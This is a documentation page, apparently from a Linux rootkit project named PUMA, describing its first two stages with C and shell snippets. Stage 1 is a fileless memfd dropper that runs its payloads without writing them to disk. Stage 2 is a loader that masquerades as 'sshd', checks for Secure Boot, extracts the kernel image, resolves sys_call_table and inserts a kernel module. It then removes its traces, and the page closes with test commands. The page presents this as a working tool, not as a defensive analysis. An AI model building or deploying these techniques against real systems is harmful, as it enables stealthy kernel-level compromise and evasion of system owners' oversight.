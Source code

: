 ```yaml
---
title: "Fileless Dropper & Rootkit Loader"
description: "Stages 1 & 2: in-memory payload staging and LKM insertion"
icon: "cloud_download"
date: "2025-05-11T18:15:00+01:00"
lastmod: "2025-05-11T18:15:00+01:00"
draft: false
toc: true
weight: 10
---
```


# Stage 1: Fileless Memfd Dropper

{{< alert context="info" text="We stage both loader and cron stub entirely in memory--no on-disk binaries." />}}

1. We call  
   ```c
   fd_loader = memfd_create("loader", MFD_CLOEXEC);
   fd_target = memfd_create("target", MFD_CLOEXEC);
   ```
   to get two anonymous file descriptors.
2. We `write()` our embedded ELF blobs into each fd.
3. We `fork()`:
   - **Child**: redirect stdout/stderr to `/dev/null`, then
     ```c
     execveat(fd_loader, NULL, argv_loader, envp, AT_EMPTY_PATH);
     ```
   - **Parent**: `waitpid()`, then
     ```c
     execveat(fd_target, NULL, argv_target, envp, AT_EMPTY_PATH);
     ```


`execveat(..., AT_EMPTY_PATH)` lets us execute a program by FD without any filename on disk.

---

# Stage 2: Environment-Aware Loader

{{< alert context="warning" text="We verify Secure Boot is off, extract the kernel image, resolve symbols, and then insert our LKM." />}}

1. We rename our process to "sshd" via  
   ```c
   prctl(PR_SET_NAME, "sshd", 0, 0, 0);
   ```
2. We scan `dmesg` for "Secure boot" strings. If found, we abort.
3. We drop a helper script `/tmp/loader.sh` that:
   - Uses `file` + `grep` to detect gzip/xz/bz2/lz4/zstd.
   - Runs `tail -c +<offset>` + the right decompressor → `/tmp/vmlinux`.
4. In `loader.c`, we open `/tmp/vmlinux` and call:
   ```c
   sys_call_table = (void **)kallsyms_lookup_name("sys_call_table");
   ```
5. We load our kernel module by creating another memfd for `puma.ko` and calling:
   ```c
   finit_module(fd_puma_ko, "", 0);
   ```
6. Finally, we remove `/tmp/loader.sh` and `/tmp/vmlinux`.

---

## Code Locations

- `rootkit/dropper/dropper.c`  
- `rootkit/loader/loader.c` & `rootkit/loader/loader.sh`

## Quick Test

```bash
./rootkit/dropper/cron
dmesg | grep "PUMA is compatible"
dmesg | grep "PUMA loaded"
```